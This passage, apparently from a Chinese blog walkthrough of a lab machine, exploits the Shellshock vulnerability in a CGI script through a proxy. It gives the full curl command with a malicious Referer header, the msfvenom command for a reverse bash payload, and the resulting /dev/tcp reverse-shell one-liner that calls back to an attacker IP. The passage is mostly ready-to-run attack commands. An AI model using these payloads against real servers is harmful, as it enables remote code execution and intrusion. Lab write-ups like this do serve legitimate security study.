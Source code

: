 `-v` 显示更详细的信息


`http://ip/cgi-bin/status` nikto扫描出来的url


`-H " "`指定主机头 里面是一个恶意构造的http头，目的是利用Shellshock漏洞来尝试执行服务器上的命令。具体来说，它试图通过设置一个恶意的环境变量来触发漏洞，然后执行 `/usr/bin/id` 命令，该命令会输出当前用户的ID信息，包括用户名和所属用户组。


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231245439-1928849398.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231245439-1928849398.png)


### 利用shellshock反弹shell


用msfvenom生成payload


[MSF的使用教程 \- 黑客无极 \- 博客园](https://github.com)



```
sudo msfvenom -p cmd/unix/reverse_bash lhost=kali_ip lport=443 -f raw 
```

`-f, --format` 


 `指定 Payload 的输出格式(使用 --list formats 列出)`


\-f raw 表示直接输出payload的源代码


这个sh环境路径有可能无法使用，如果不行就改成绝对路径


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231254639-153841339.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231254639-153841339.png)


生成的payload



```
0<&137-;exec 137<>/dev/tcp/192.168.236.128/443;sh <&137 >&137 2>&137
```

nc开启监听后，使用payload



```
sudo curl -v --proxy http://192.168.236.133:3128 http://192.168.236.133/cgi-bin/status -H "Referer:() { test;}; echo 0<&137-;exec 137<>/dev/tcp/192.168.236.128/443;sh <&137 >&137 2>&137"
```

执行后监听有反应，但直接就断了，显示没有sh这个文件或路径


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231303209-1080601449.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231303209-1080601449.png)
那就修改一下：`/bin/sh`
